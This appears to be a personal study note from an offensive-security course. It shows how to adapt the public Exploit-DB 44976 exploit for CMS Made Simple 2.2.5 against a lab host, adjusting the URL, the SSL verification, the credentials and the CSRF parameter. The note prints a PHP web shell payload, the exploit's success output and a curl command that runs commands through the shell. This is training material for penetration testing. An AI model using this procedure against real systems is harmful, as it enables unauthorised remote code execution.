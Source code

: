 

Don't often result in memory corruption, therefore, they're not affected by DEP, ASLR, etc protections and exploits are significantly easier to re-purpose.  
  
However, public web app exploits don't take into account additional protections like htaccess, modsecurity, etc.  
  
Important to properly read code to understand what considerations must be taken in our editing process.  
Several key questions needed to ask while approaching the code:  
  
- Does it initiate an HTTP or HTTPS connection?  
- Does it access a web application specific path or route?  
- Does the exploit leverage a pre-authentication vulnerability?  
- If not, how does the exploit authenticate to the web application?  
- How are the GET or POST requests crafted to trigger and exploit the vulnerability?  
- Does it rely on default application settings (such as the web pathof the application) that may have been changed after installation?  
- Will oddities such as self-signed certificates disrupt the exploit?  
  
  
Ex:  
	During an assessment, we discover a Linux host w/ an _apache2_ server exposed.  
After enumerating the server, we find an install of _CMS Made Simple_ v2.2.5 listening on TCP port 443.  
```bash
dirb https://192.168.222.44
```

This version appears to be vuln to RCE & a public exploit is available on Exploit-DB (44976)  
  
The vuln's post-authentication, but we've discovered a valid app creds (admin/ HUYfaw763) on another machine during enum  
  
  
Looking at the code, things need to be updated:  
  
_Line 12_:  
```html
base_url = "http://192.168.1.10/cmsms/admin"
```
	Base URL variable needs to be changed to match the env  
	Same for the IP addr  
	Protocol needs to be set to HTTPS  
```html
base_url = "https://192.168.222.44/admin
```


Browsing to https://192.168.222.44/admin shows a Connection not Secure message:  
	_invalid security certificate_ (SEC_ERROR_UNKNOWN_ISSUER or ERROR_SELF_SIGNED_CERT)
![[self-signed.png]]

As the cert can't be validated, we must account for this in the exploit code.  
  
The exploit uses the _import requests_ library (_Line 9_) to comm w/ the target, making 3 POST requests.  
  
_Lines 34, 55, 80:_  
```python
response = requests.post(url, data=data, allow_redirects=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
```


The official doc indicates that the SSL cert can be ignored if we set the _verify_ param to False: [https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification](https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification)  

```python
response = requests.post(url, data=data, allow_redirects=False, verify=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
```


Also need to change the creds to match those found.  
  
_Lines 15 & 16:_  
```python
username = "admin"  
password = "HUYfaw763"
```


Payload doesn't need to be changed as it only executes sys cmds passed in cleartext w/in GET:  
_Lines 20-21:_  
```python
php_filename = 'shell.php'  
payload = "<?php system($_GET['cmd']);?>"
```


Running the script throws an error:  
```bash
[+] Authenticated successfully with the supplied credentials  
Traceback (most recent call last):  
  File "web_EDB-44976.py", line 103, in <module>  
run()  
  File "web_EDB-44976.py", line 94, in run  
cookies,csrf_token = authenticate()  
  File "web_EDB-44976.py", line 38, in authenticate  
return response.cookies, parse_csrf_token(response.headers['Location'])  
  File "web_EDB-44976.py", line 24, in parse_csrf_token  
return location.split(csrf_param + "=")[1]  
IndexError: list index out of range  
```


Shows an exception was triggered during the execution of the _parse_csrf_token_ on _Line 24_ of the code.  
	Tells us the code tried to access a non-existent element of a Python list by accessing its 2nd element:  
_Lines 18, 23-24:_  
```python
csrf_param = "__c"  
...  
def parse_csrf_token(location):  
return location.split(csrf_param + "=")[1]
```


Looking at the code, you can see it uses the _split_ method to slice the string sotred in the _location_ parameter passed to the _parse_csrf_token_ func.  
  
Python doc for _split_ indicates that the method slices the input string using an optional delimiter passed as a first argument.  
The string slices returned by _split_ are then stored in a _List_ object that can be accessed via an index.  
Ex:  
```python
python  
  
>>> mystr = "Kali*-*Linux*-*Rocks"  
>>> result = mystr.split("*-*")  
>>> result  
['Kali', 'Linux', 'Rocks']  
>>> result[1]  
'Linux'
```

 
To help troubleshoot, we can insert a _print_ statement in the function before the return instructions:  
```python
def parse_csrf_token(location):  
print "[+] String being split: " + location  
return location.split(csrf_param + "=")[1]
```


Running the exploit again will print the full string before the _split_ method is invoked:  
```bash
[+] String being split: https://192.168.222.44/admin?_sk_=178967e0c571882184a  
```


As discovered, while the code expected the input string for _csrf_param_ to be “\_\__c_”, but instead received “\_\_sk\_\_”  
  
So fixing the parameter corrects the exploit:  
_Line 18:_  
```python
csrf_param = "_sk_"
```


Fix:  
```bash
[+] File copied successfully  
[+] Exploit succeeded, shell can be found at: https://192.168.222.44/uploads/shell.php  
```


Now we can validate the exploit by attaching to the php shell either in the browser or w/ [curl](curl.md):  
```bash
curl -k https://192.168.222.44/uploads/shell.php?cmd=whoami  
www-data
```